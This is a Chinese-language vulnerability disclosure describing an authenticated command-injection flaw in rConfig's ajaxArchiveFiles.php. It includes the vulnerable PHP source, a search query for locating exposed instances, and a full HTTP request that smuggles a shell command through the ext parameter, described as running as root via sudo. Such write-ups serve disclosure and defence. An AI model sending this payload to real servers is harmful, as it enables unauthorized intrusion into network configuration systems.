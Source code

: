 # rConfig ajaxArchiveFiles.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxArchiveFiles.php文件中由于对path参数和ext参数进行命令拼接，导致攻击者可以远程命令执行获取服务器权限

## 漏洞影响

<a-checkbox checked>rConfig</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="rConfig"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件

`/home/rconfig/www/lib/ajaxHandlers/ajaxArchiveFiles.php`

```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/config/functions.inc.php");
$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//archive logs files
    $mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
    foreach (glob($fullpath) as $v) {
        unlink($v);
    }

    $fileCount = count(glob($mainPath . $ext));

    if ($fileCount > 0) {
        $response = json_encode(array(
            'failure' => true
        ));
    } else {
        $response = json_encode(array(
            'success' => true
        ));
    }
    echo $response;
}  // end session check
```



关键代码如下



```php
$mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
```

`ext参数` 用户可控

```php
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
```



没有使用过滤直接拼接命令，导致命令执行，并因为sudo而root权限执行，由于是后台漏洞所以需要登录，配合任意用户创建可以RCE



请求包为



```plain
GET /lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;ls%3E../../test.txt HTTP/1.1
Host: 
Cookie: cookname=testtest; cookid=a13be657db5e18e453c66c564467b0f2; PHPSESSID=lr7j5r2beat1eprpklrhiorq71
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 2
```



再请求 /test.txt 验证漏洞



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/rc-5.png)